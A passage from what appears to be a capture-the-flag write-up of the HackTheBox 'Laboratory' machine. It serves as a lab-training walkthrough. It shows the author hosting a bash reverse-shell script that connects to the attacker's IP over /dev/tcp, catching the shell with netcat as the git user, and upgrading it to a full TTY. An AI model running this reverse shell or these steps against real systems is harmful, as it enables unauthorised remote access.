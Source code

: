

Immediately at the webserver, there's a request from Laboratory:



    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.216 - - [07/Mar/2021 04:55:55] code 404, message File not found
    10.10.10.216 - - [07/Mar/2021 04:55:55] "GET /sh HTTP/1.1" 404 -



I'll write a simple payload and save it as `sh` in the hosted directory:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1



On re-running the same `curl` command, the hit on the webserver is
successful this time:



    10.10.10.216 - - [07/Mar/2021 04:56:49] "GET /sh HTTP/1.1" 200 -



And there's a shell at `nc`:



    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.216] 54360
    bash: cannot set terminal process group (414): Inappropriate ioctl for device
    bash: no job control in this shell
    git@git:~/gitlab-rails/working$ id
    uid=998(git) gid=998(git) groups=998(git)



I'll upgrade the shell:



    git@git:~/gitlab-rails/working$ python3 -c 'import pty;pty.spawn("bash")'
    git@git:~/gitlab-rails/working$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    git@git:~/gitlab-rails/working$



## Shell as dexter

### Enumeration
